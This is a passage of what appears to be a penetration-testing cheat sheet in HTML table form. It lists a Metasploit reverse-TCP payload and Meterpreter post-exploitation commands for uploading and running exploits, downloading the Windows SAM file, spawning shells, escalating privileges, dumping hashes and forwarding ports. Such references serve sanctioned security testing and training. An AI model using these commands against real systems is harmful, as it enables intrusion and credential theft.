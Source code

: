 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>set payload linux/meterpreter/reverse_tcp</td> 
 <td>Meterpreter Linux Reverse Payload</td> 
 </tr> 
 </tbody> 
 </table> 
 <h2>Meterpreter Cheat Sheet</h2> 
 <p>Useful meterpreter commands.</p> 
 <table> 
 <thead> 
 <tr> 
 <th>Command</th> 
 <th>Description</th> 
 </tr> 
 </thead> 
 <tbody> 
 <tr> 
 <td>upload file c:\\windows</td> 
 <td>Meterpreter upload file to Windows target</td> 
 </tr> 
 <tr> 
 <td>download c:\\windows\\repair\\sam /tmp</td> 
 <td>Meterpreter download file from Windows target</td> 
 </tr> 
 <tr> 
 <td>download c:\\windows\\repair\\sam /tmp</td> 
 <td>Meterpreter download file from Windows target</td> 
 </tr> 
 <tr> 
 <td>execute -f c:\\windows\temp\exploit.exe</td> 
 <td>Meterpreter run .exe on target – handy for executing uploaded exploits</td> 
 </tr> 
 <tr> 
 <td>execute -f cmd -c</td> 
 <td>Creates new channel with cmd shell</td> 
 </tr> 
 <tr> 
 <td>ps</td> 
 <td>Meterpreter show processes</td> 
 </tr> 
 <tr> 
 <td>shell</td> 
 <td>Meterpreter get shell on the target</td> 
 </tr> 
 <tr> 
 <td>getsystem</td> 
 <td>Meterpreter attempts priviledge escalation the target</td> 
 </tr> 
 <tr> 
 <td>hashdump</td> 
 <td>Meterpreter attempts to dump the hashes on the target</td> 
 </tr> 
 <tr> 
 <td>portfwd add –l 3389 –p 3389 –r target</td> 
 <td>Meterpreter create port forward to target machine</td> 
 </tr> 
 <tr> 
 <td>portfwd delete –l 3389 –p 3389 –r target</td> 